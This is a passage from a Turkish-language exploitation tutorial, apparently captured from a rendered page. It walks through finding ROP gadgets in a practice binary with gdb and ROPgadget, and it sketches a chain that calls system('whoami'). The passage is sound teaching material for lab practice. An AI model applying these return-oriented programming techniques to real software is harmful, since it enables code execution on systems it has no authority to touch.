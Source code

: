 #### 3.2. ROP Gadget Analizi - Detaylı İnceleme
```bash
# 1. ADIM: Gadget fonksiyonlarını disassemble et
(gdb) disassemble gadget_pop_rdi
# ÇIKTI:
# 0x0000000000401323 <+0>:	push   %rbp
# 0x0000000000401324 <+1>:	mov    %rsp,%rbp
# 0x0000000000401327 <+4>:	movl   $0x0,-0x4(%rbp)
# 0x000000000040132e <+11>:	mov    -0x4(%rbp),%eax
# 0x0000000000401331 <+14>:	add    $0x1,%eax
# 0x0000000000401334 <+17>:	mov    %eax,-0x4(%rbp)
# 0x0000000000401337 <+20>:	nop
# 0x0000000000401338 <+21>:	pop    %rbp
# 0x0000000000401339 <+22>:	ret
# YORUM: ❌ Bu sadece dummy fonksiyon! Gerçek pop rdi; ret yok.
#        Sadece push rbp, mov rsp,rbp, nop, pop rbp, ret yapıyor.

# 2. ADIM: ROPgadget ile gerçek gadget'ları bul
# Terminal'de çalıştır:
ROPgadget --binary compiled/vulnerable_code --ropchain
# ÇIKTI:
# pop rdi; ret: 0x401383
# pop rsi; ret: 0x40138c  
# pop rdx; ret: 0x401395
# syscall: 0x40139e

# 3. ADIM: Gerçek gadget'ları GDB'de incele
(gdb) x/5i 0x401383
# ÇIKTI:
# 0x401383: pop    %rdi
# 0x401384: ret
# YORUM: ✅ BU GERÇEK GADGET! RDI register'ına stack'ten değer alır.

(gdb) x/5i 0x40138c
# ÇIKTI:
# 0x40138c: pop    %rsi
# 0x40138d: ret
# YORUM: ✅ BU GERÇEK GADGET! RSI register'ına stack'ten değer alır.

(gdb) x/5i 0x401395
# ÇIKTI:
# 0x401395: pop    %rdx
# 0x401396: ret
# YORUM: ✅ BU GERÇEK GADGET! RDX register'ına stack'ten değer alır.

(gdb) x/5i 0x40139e
# ÇIKTI:
# 0x40139e: syscall
# YORUM: ✅ BU GERÇEK SYSCALL! Sistem çağrısı yapar.

# 4. ADIM: Gadget'ların kullanımını anla
# pop rdi; ret (0x401383): RDI'ya değer yükler (1. parametre)
# pop rsi; ret (0x40138c): RSI'ya değer yükler (2. parametre)  
# pop rdx; ret (0x401395): RDX'ya değer yükler (3. parametre)
# syscall (0x40139e): Sistem çağrısı yapar

# 5. ADIM: Gadget chain örneği
# Eğer system("whoami") çağırmak istiyorsak:
# 1. pop rdi; ret (0x401383) -> RDI'ya "whoami" string adresini yükle
# 2. system@plt (0x401030) -> system fonksiyonunu çağır
# 3. exit@plt (0x401060) -> Programı sonlandır
```
